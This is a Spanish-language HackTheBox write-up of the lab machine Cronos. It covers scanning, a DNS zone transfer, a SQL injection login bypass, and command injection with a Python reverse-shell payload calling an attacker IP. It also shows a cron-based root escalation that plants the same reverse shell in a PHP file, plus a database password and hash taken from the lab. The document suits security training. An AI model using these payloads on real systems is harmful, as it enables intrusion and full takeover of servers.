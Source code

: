 ```yaml
---
layout : post
author: X4v1l0k
title: Cronos Writeup [HTB]
date: 2020-11-06 20:12:00 +/- 0000
categories: [Machine-Writeup, HackTheBox]
tags: [Command injection,Cron,PHP,OSCP Path]
headline: Cronos is a beginner-friendly Linux machine from Hackthebox, where we will bypass a html login with SQL injection, we will get a shell using Command injection and we will escalate privileges taking advantage of a cron task.
image: https://www.hackthebox.eu/storage/avatars/f77c75f363afe0d0a6eeccf6a8d8c252.png
---
```


Cronos - 10.10.10.13
===
![](https://www.hackthebox.eu/storage/avatars/f77c75f363afe0d0a6eeccf6a8d8c252.png)
###### tags: `HTB` `Medium` `Linux`

# Enumeración
## Nmap
```bash
$ nmap -A -Pn -p- 10.10.10.13

Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-05 19:25 CET
Nmap scan report for 10.10.10.13
Host is up (0.034s latency).
Not shown: 65532 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   33.72 ms 10.10.14.1
2   33.77 ms 10.10.10.13

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 124.44 seconds
```

## Puerto 53
- Sabiendo que tiene el puerto DNS abierto, registro la IP dentro del archivo hosts como cronos.htb y ahora, al acceder desde el navegador a http://cronos.htb nos encontramos con una web.
- Ahora, para completar la enumeración del puerto, vamos a ver si tiene más dominios asociados.

```bash
$ dig @10.10.10.13 cronos.htb axfr

; <<>> DiG 9.16.4-Debian <<>> @10.10.10.13 cronos.htb axfr
; (1 server found)
;; global options: +cmd
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.		604800	IN	NS	ns1.cronos.htb.
cronos.htb.		604800	IN	A	10.10.10.13
admin.cronos.htb.	604800	IN	A	10.10.10.13
ns1.cronos.htb.		604800	IN	A	10.10.10.13
www.cronos.htb.		604800	IN	A	10.10.10.13
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 36 msec
;; SERVER: 10.10.10.13#53(10.10.10.13)
;; WHEN: jue nov 05 19:30:19 CET 2020
;; XFR size: 7 records (messages 1, bytes 203)
```
- Vemos que también está disponible http://admin.cronos.htb por lo tanto, lo añadimos también a nuestro archivo hosts.

## Puerto 80
- Dentro de la URl http://cronos.htb nos encontramos 5 enlaces a recursos externos.
- Dentro de http://admin.cronos.htb/ nos encontramos una página de login.

# Explotación
- Para hacer bypass al login de http://admin.cronos.htb/ usamos:
	- `username: admin' or '1'='1 #`
	- `password: cualquiercosa`
- Ahora, nos encontramos un formulario en el que según parece podemos hacer ping y tracert a una ip.
- Si ponemos en el input `;id` podemos ver que tenemos RCE como www-data por lo que, vamos a por una shell.
- Perfecto, usando el siguiente payload, obtenemos shell.

```
;python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.35",8787));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

# Post explotación
## Escala de privilegios
- Dentro del archivo config.php nos encontramos unas credenciales de la base de datos.

```bash
$ www-data@cronos:/var/www/admin$ cat config.php 
<?php
   define('DB_SERVER', 'localhost');
   define('DB_USERNAME', 'admin');
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
   define('DB_DATABASE', 'admin');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
?>
```

- Vamos a conectarnos a la base de datos y ver que sacamos.

```bash
$ www-data@cronos:/home$ mysql -u admin -p

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| admin              |
+--------------------+
2 rows in set (0.00 sec)

mysql> use admin
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-----------------+
| Tables_in_admin |
+-----------------+
| users           |
+-----------------+
1 row in set (0.00 sec)

mysql> select * from users;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | 4f5fffa7b2340178a716e3832451e058 |
+----+----------+----------------------------------+
1 row in set (0.00 sec)
```

- Ahora tenemos una encriptación en lo que parece ser MD5. Mientras la crackea, vamos a lanzar linpeas.


```bash
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

* * * * *	root	php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

- Linpeas nos reporta un cron ejecutándose como root sobre un archivo del que somos propietarios por lo que, podemos inyectar en el una shell!. Modificamos el inicio del archivo dejándolo del siguiente modo.

```bash
$ nano /var/www/laravel/artisan

#!/usr/bin/env php
<?php

system('python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.35",8787));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\'');
```

- Ahora, esperamos unos segundos con un listener corriendo y... tenemos shell como root!.
